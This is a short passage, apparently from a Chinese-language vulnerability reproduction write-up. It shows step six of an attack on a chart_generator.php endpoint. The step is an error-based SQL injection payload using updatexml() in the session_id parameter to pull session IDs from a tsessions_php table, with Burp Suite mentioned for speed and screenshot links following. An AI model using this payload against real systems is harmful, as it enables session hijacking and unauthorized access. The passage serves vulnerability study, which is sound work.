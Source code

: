   6. 因为updatexml()函数有32位限制，手工注入比较耗时，为了快速获取字段值，这里通过BP分别去查询id_session字段值:

      ```
      /include/chart_generator.php?session_id=1' and (updatexml (1, concat(0x7e, (select id_session from tsessions_php limit 0,1), 0x7e),1))--+
      ```
      ![](/style/image/2024-01-31-14-52-33.png)
      ![](/style/image/2024-01-31-14-53-30.png)
      ![](/style/image/2024-01-31-14-53-59.png)